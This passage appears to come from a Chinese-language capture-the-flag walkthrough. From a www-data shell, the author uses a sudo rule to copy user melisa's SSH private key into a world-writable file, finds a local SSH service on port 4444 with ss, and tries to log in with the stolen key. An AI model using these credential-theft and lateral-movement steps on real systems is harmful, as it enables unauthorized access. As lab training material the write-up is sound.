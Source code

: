 ```bash
(remote) www-data@five:/tmp$ touch melisa
(remote) www-data@five:/tmp$ sudo -u melisa cp /home/melisa/.ssh/id_rsa /tmp/melisa
(remote) www-data@five:/tmp$ ls -la
total 40
drwxrwxrwt  8 root     root     4096 Apr 21 05:57 .
drwxr-xr-x 18 root     root     4096 Oct  5  2020 ..
drwxrwxrwt  2 root     root     4096 Apr 21 05:17 .ICE-unix
drwxrwxrwt  2 root     root     4096 Apr 21 05:17 .Test-unix
drwxrwxrwt  2 root     root     4096 Apr 21 05:17 .X11-unix
drwxrwxrwt  2 root     root     4096 Apr 21 05:17 .XIM-unix
drwxrwxrwt  2 root     root     4096 Apr 21 05:17 .font-unix
-rw-------  1 melisa   melisa   1811 Apr 21 05:56 id_rsa
-rw-rw-rw-  1 www-data www-data 1811 Apr 21 05:57 melisa
drwx------  3 root     root     4096 Apr 21 05:17 systemd-private-78d8e7134f2f4ec89dc2c5815b640611-systemd-timesyncd.service-dJl3ZN
(remote) www-data@five:/tmp$ chmod 600 melisa
(remote) www-data@five:/tmp$ nc 127.0.0.1 22
(UNKNOWN) [127.0.0.1] 22 (ssh) : Connection refused
```

不可以直接进行复制，因为执行者还是`melisa`，我们要创建一个我们自己的文件充当容器，然后把目标放进去才行！

### 查看端口

然后就是发现没开放`22`端口，查看一下是否开启了ssh服务！

```bash
(remote) www-data@five:/tmp$ ss -tnlup
Netid       State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port                                             
udp         UNCONN       0            0                        0.0.0.0:68                      0.0.0.0:*                                                
tcp         LISTEN       0            128                      0.0.0.0:80                      0.0.0.0:*           users:(("nginx",pid=416,fd=6))       
tcp         LISTEN       0            128                    127.0.0.1:4444                    0.0.0.0:*                                                
tcp         LISTEN       0            128                         [::]:80                         [::]:*           users:(("nginx",pid=416,fd=7))
```

发现开放了`4444`端口，尝试连接一下：

```bash
(remote) www-data@five:/tmp$ ssh melisa@127.0.0.1 -p 4444 -i melisa 
Could not create directory '/var/www/.ssh'.
The authenticity of host '[127.0.0.1]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
melisa@127.0.0.1's password: 
```

### 生成默认公钥

